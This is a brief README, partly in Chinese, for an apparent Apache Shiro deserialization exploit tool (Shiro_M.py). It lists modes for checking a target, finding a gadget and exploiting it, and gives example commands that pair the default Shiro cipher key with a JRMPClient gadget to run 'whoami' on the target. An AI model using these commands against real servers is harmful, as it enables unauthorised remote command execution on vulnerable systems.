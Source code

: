 # 0、Usage

> usage: Shiro_M.py [-h] -u URL [-t TYPE] [-g GADGET] [-c COMMAND] [-k KEY]
>
> -OPTIONS-:
>   -h, --help            show this help message and exit
>   -u URL, --url URL     Target url.
>   -t TYPE, --type TYPE  Check or Exploit. Check:1, Find gadget:2, Exploit:3
>   -g GADGET, --gadget GADGET
>                         gadget
>   -c COMMAND, --command COMMAND
>                         gadget command
>   -k KEY, --key KEY     CipherKey

# 1、检测

​    python Shiro_M.py -u http://127.0.0.1:8080/login

# 2、Found gadget

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 2 -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 3、Exp

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 3 -g "JRMPClient" -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 注：

ysoserial比较大